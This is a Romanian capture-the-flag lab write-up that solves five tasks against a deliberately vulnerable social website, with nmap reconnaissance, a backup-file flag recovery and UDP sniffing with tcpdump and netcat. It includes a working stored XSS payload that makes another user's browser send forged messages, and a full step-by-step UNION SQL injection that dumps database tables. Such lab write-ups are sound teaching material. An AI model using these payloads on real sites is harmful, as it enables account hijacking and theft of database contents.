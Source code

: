 Cerinta 1 - SpeishFlag{kkf8PxAGMcHBfwKN2KonvGzLy27CLC2u} 
Pentru a putea intra pe site am folosit scriptul connect.sh din arhiva. Am dat ls si am observat ca exista scriptul webtunnel.sh pentru a ne conecta care avea nevoie de 2 parametrii - adresa ip a serverului web si port. Am dat ```ip address show``` si am dat nmap pe reteaua locala ```nmap -Pn 172.22.0.4/16``` si am luat serverul care are doar serviciul http deschis din output:
Nmap scan report for 172.22.0.206
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:16:00:03 (Unknown)

```./webtunnel.sh 172.22.0.206 80 &```

apoi am pus in bara de search web http://localhost:8080.

Am observat ca butonul de register ma duce spre calea /auth/fake_login, asa ca m-am uitat in codul sursa HTML al paginii, unde am gasit un comentariu catre likul real de login: /auth/register_real_one. Mi-am facut cont, m-am logat cu el si m-am uitat din nou in codul sursa al paginii, de data aceasta in cel al caii: /inside, am dat search dupa SpeishFlag si am gasit flag-ul: SpeishFlag{kkf8PxAGMcHBfwKN2KonvGzLy27CLC2u} 

Cerinta 2 - SpeishFlag{4xGe2CQgV2LKDfbtQgTtglUGRaj9KqDh}
Prima data am incercat sa ii dau friend request bossului, dar nu a mers. M-am uitat in codul site-ului si apoi in main.js si am observat ca pot apela, de pe profilul meu, acceptFriend(boss_id) ca bossul sa imi accepte si el cererea si am observat in codul site-ului ca id ul boss-ului este 1: ```<div class="box profile-view" data-user-id="1">``` . Am apelat ```acceptFriend(1)```, insa nu a functionat. M-am uitat la hint ul din README si am observat ca prietenul comun intre mine si boss este Nyan asa ca i-am trimis un mesaj cu un script in care am apelat acceptFriend(9) pentru a il face pe boss sa ne accepte cererea de prietenie:
```<script>
$(function() {
    if (window.authUserName === 'nyan') {
        var form = document.getElementsByTagName("form")[0];

        if (form) {
            form.action = "/inside/message/send/1";

            var text = form.getElementsByTagName("text")[0];

            if (text) {
                text.value = "<script> $(function() { acceptFriend(9) }); <\/script>";
            }
            form.submit();
        }
    }
});
</script>```

Dupa am gasit pe wall-ul bossului flag-ul.

Cerinta 3 - SpeishFlag{DDYdFlk1s4Y55OGHO6iVkjQbLW992Zky}
M-am luat dupa hint si am cautat in postarile boss-ului si am vazut ca exista un script numit backup.sh, asa ca am accesat localhost:8080/backup.sh de unde s-a descarcat scriptul:
```#!/bin/bash
# Dis iz mah backup script
# Powered by cat, ofc!

echo "can you guess what you'll find in here?" > /tmp/flag.txt
tar czf /tmp/flag.tar.gz -C /tmp/ flag.txt
# Backup website
tar czf backup-orig.tar.gz -C /var/www/ .
# Let the cat do its thing
DATE=$(date +'%Y-%m-%d' -d "$(( RANDOM % 15 + 2 )) days ago")
cat backup-orig.tar.gz /tmp/flag.tar.gz > backup-$DATE.tar.gz
rm -f backup-orig.tar.gz```

Am luat comanda ```DATE=$(date +'%Y-%m-%d' -d "$(( RANDOM % 15 + 2 )) days ago")``` si apoi am dat ```echo
$DATE``` care mi-a intors data 2023-12-29. Asa ca am incercat 127.0.0.1:8080/backup-2023-12-29.tar.gz. Intrucat am vazut ca este intors random, am tot repetat procesul anterior pana cand am gasit ca localhost:8080/backup-2023-12-30.tar.gz imi descarca o alta arhiva. 
Am incercat sa dezarhivez si sa caut flag-ul dar nu a mers, am dat ```xxd -l 256 backup-2023-12-30.tar.gz``` pe arhiva si am observat ca incepe cu 1f 8b 08.
Am dat search dupa string-ul gasit in hexedit si am gasit: ---  backup-2023-12-30.tar.gz       --0xB0155/0xB022C--100%--------------------

Apoi am extras ultima parte a arhivei intr-o alta arhiva:
 tail -c +$((16#B0150)) backup-2023-12-30.tar.gz > flag.tar.gz

Am dezarhivat arhiva si am gasit flag-ul:
SpeishFlag{DDYdFlk1s4Y55OGHO6iVkjQbLW992Zky}
https://www.youtube.com/watch?v=28MnGe1Rr18

Cerinta 4 - SpeishFlag{5T03leSm78BsIchrKdVFZTC2ooqcxPkA}
Folsind sqlmap, am vazut ca endpointul vulnerabil este http://localhost:8080/inside/p/. ID-ul care urmeaza dupa /p/ este trimis direct in cererea catre baza de date.

M-am logat si am apelat ```http://localhost:8080/inside/p/'%20or%201%20order%20by%201,2,3,4,5,6,7,8,9,10%20--%20x``` echivalent ```' or 1 order by 1,2,3,4,5,6,7,8,9,10 -- x```

Output: 
Fatal error: Uncaught PDOException: SQLSTATE[42S22]: Column not found: 1054 Unknown column '9' in 'order clause' in /var/www/lib/Database.php:45 Stack trace: #0 /var/www/lib/Database.php(45): PDO->prepare() #1 /var/www/controllers/inside/Profile.php(24): Database->Query() #2 /var/www/lib/Controller.php(63): Profile->index() #3 /var/www/controllers/inside/Index.php(46): Controller->Dispatch() #4 /var/www/index.php(30): Index->Dispatch() #5 {main} thrown in /var/www/lib/Database.php on line 45 

Daca nu poate accesa coloana 9 => sunt 8 coloane

Apoi, ca la laborator am folosit ' union select 1, 2, 3, 4, 5, 6, 7, 8 from information_schema.tables -- x
pentru a afla ce coloana este afisata => coloana 3 (profilul boss-ului)

Pentru a afla din ce tabela face parte flag-ul: ```' union select 1, 2, group_concat(distinct(table_schema) separator ','), 4, 5, 6, 7, 8 from information_schema.tables -- x``` => information_schema,performance_schema,web_4407's Profile 6

Am folosit schema pentru a afla numele tabelelor din schema:
' union select 1, 2, group_concat(table_name separator ','), 4, 5, 6, 7, 8 from information_schema.tables where table_schema='web_4407' -- x => accounts,flags74513,friends,messages,posts's Profile 6

Pentru a afla numele coloanelor din flags74513 am folosit
' union select 1, 2, group_concat(column_name separator ','), 4, 5, 6, 7, 8 from information_schema.columns where table_schema='web_4407' and table_name='flags74513' -- x => id,zaflag's Profile 6

Pentru a obtine flag ul am folosit:

' union select 1, 2, zaflag, 4, 5, 6, 7, 8 from web_4407.flags74513 -- x => SpeishFlag{5T03leSm78BsIchrKdVFZTC2ooqcxPkA}'s Profile 6

Flag-ul: SpeishFlag{5T03leSm78BsIchrKdVFZTC2ooqcxPkA}


Cerinta 5 - SpeishFlag{zOKMVEVLKr4AcoGIUcNKyZs52Ys8PZ83}
Am rulat comanda ```./webtunnel.sh 172.22.0.206 80 &``` in background si apoi am dat comanda:
tcpdump -i eth0 host 192.168.160.206 and \(port 80 or icmp\) and icmp[icmptype] == 3
unde ip-ul este ip-ul masinii de pe eth0, m-am logat pe site si am observat urmatoarea linie:
14:41:05.536282 IP dev-machine > 192.168.160.206: ICMP dev-machine udp port 10441 unreachable, length 181

Asa ca am luat portul si dat netcat pe el ```nc -lu 10441``` pentru a vedea daca va scrie ceva si am obtinut(dupa ce am accesat profilul lui nyan):
NYAN.NYAN.NYAN.NYAN.NYAN.NYAN.NYAN.NYAN.NYAN.NYAN.NYAN.U3BlaXNoRmxhZ3t6T0tNVkVWTEtyNEFjb0dJVWNOS3laczUyWXM4UFo4M30=NYAN.NYAN.NYAN.NYAN.NYAN

Am luat textul si i-am dat decode din base64 pe modul auto folosind site-ul de mai jos si am obtinut flag-ul:
https://www.base64decode.org/

```5€
5€
5€
5€
5€
5€
5€
5€
5€
5€
5€
SpeishFlag{zOKMVEVLKr4AcoGIUcNKyZs52Ys8PZ83}```





